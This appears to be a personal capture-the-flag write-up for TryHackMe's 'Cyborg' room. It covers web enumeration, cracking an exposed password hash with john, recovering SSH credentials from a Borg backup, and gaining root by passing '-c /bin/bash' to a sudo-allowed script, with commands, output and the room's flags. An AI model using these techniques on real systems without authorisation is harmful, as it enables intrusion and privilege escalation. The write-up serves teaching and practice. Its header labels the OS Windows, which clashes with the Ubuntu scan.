 ```yaml
---
title: "Cyborg"
---
```


:::info Description

These are my notes for the [Cyborg Room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## RECON

### Nmap

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

I found:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

results (didnt note the command):

```bash
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

I browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Let's crack it.

## Crack

```bash
└─$ john passwd --wordlist=/usr/share/wordlists/rockyou.txt                                                  130 ⨯ 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"                       
Use the "--format=md5crypt-long" option to force loading these as that type instead                                
Using default input encoding: UTF-8                                                                                
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])                               
Will run 2 OpenMP threads                                                                                          
Press 'q' or Ctrl-C to abort, almost any other key for status                                                      
squidward        (music_archive)                                                                                   
1g 0:00:00:01 DONE (2022-01-15 23:24) 0.6711g/s 26158p/s 26158c/s 26158C/s wonderfull..samantha5                   
Use the "--show" option to display all of the cracked passwords reliably                                           
Session completed
```

We have user/password = `music_archive/squidward`

## Enumerate web folders

I found `squid.conf`:

```bash
# http://10.10.19.193/etc/squid/squid.conf

auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### archive.tar

I found archive on `view-source:http://10.10.148.181/admin/index.html` = `http://10.10.148.181/admin/archive.tar`

downloaded & extracted - contains a BORG archive.

might come in handy later:

```sh
└─$ strings integrity.5 
version
hints
@{"algorithm": "XXH64", "digests": {"final": "05178884e81563d7"}}
index
b{"algorithm": "XXH64", "digests": {"HashHeader": "146e9cb969e480a3", "final": "b53737af67235823"}}
```

config file

```sh
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
        L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
        2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
        8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
        daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
        oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
        eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
        T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
        vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
        SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
        UCH8bjZLfc1GFsundmVyc2lvbgE=
```

## Borg Backup System

the tar is a borg deduplication file/archive [borg](https://borgbackup.readthedocs.io/en/stable/index.html).

the [usage](https://borgbackup.readthedocs.io/en/stable/usage/general.html) is e.g. `borg list /path/to/archive`

for the archive.tar with `/home/field/dev` the actual "archive" is the folder `final_archive`:

use the passwd we cracked `squidward`:

```bash
┌──(kali㉿kali)-[~/…/download/home/field/dev]
└─$ borg list ./final_archive 
Enter passphrase for key /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/CYBORG/download/home/field/dev/final_archive: 
music_archive                        Wed, 2020-12-30 03:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

so will try and extract it, see any info in it.

## PRIVESC

### user.txt

mounted archive using `borg mount ./final_archive /tmp/borg`, mounts the FUSE filesystem archive at `/tmp/borg` and was the users whole home dir backup. had a look around and found `Document\note.txt` which had:

```bash
└─$ cat Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

use it to `ssh alex@10.10.148.181` and got the `user.txt` flag.

```bash
alex@ubuntu:~$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### root.txt

check what alex can do with `sudo`:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking through the `/etc/mp3backups/backup.sh` and this part looks the most interesting because it's allowing a command to be injected in here, running as root :D

```bash
#!/bin/bash

...

while getopts c: flag
do
  case "${flag}" in 
    c) command=${OPTARG};;
  esac
done

...

```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script:

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c /bin/bash
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:~# 
```

because this spawns a shell halfway through the script, the output will be going to some other output, so we don't see the results until I exit out of the shell:

```bash
root@ubuntu:~# id; whoami; cat /root/root.txt
root@ubuntu:~# exit
uid=0(root) gid=0(root) groups=0(root) root flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
